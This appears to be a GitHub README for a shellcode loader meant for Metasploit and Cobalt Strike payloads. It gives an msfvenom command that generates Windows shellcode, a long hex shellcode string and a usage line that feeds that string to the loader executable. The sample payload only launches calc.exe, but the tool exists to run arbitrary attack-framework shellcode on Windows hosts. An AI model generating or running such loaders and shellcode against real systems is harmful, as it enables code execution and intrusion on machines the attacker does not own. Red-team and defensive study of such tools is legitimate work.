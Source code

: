 # ShellCode-Loader
## ShellCode Loader for MSF and Cobalt Strike 

#####

```msfvenom -p windows/exec CMD=calc.exe -f c```

shellcode：
bf6e4a2508d9ebd97424f45d33c9b131317d13037d1383c56aa8d0f49aae1b055acf92e06bcfc161dbff8224d774c6dc6cf8cfd3c5b729ddd6e40a7c54f75e5e6538939fa2255ecd7b21cde2087fce894291566d1290772029cb57c2fe67dedce342a857d7392bbe26c180ff8730d8382fabaf304c56a8862f8c3d1d9747e5f9268b70892460f6d52877db6d54fcdaa1dd46f965861d603f62f39d5fcdac3b2be3b93176693fc70cdf3fd70e4f28e685002ff74f65cf155a9378800f1ee533fa5c10b00f1ce7a86519a36e9553bc1a99c0bd0efa872dd2d322d6712c

```shellcode_Argv.exe```

```bf6e4a2508d9ebd97424f45d33c9b131317d13037d1383c56aa8d0f49aae1b055acf92e06bcfc161dbff8224d774c6dc6cf8cfd3c5b729ddd6e40a7c54f75e5e6538939fa2255ecd7b21cde2087fce894291566d1290772029cb57c2fe67dedce342a857d7392bbe26c180ff8730d8382fabaf304c56a8862f8c3d1d9747e5f9268b70892460f6d52877db6d54fcdaa1dd46f965861d603f62f39d5fcdac3b2be3b93176693fc70cdf3fd70e4f28e685002ff74f65cf155a9378800f1ee533fa5c10b00f1ce7a86519a36e9553bc1a99c0bd0efa872dd2d322d6712c```

![calc](https://github.com/LDrakura/ShellCode-Loader/blob/master/calc.png)

# 2021-01-31

- bug fixed
- add x64 release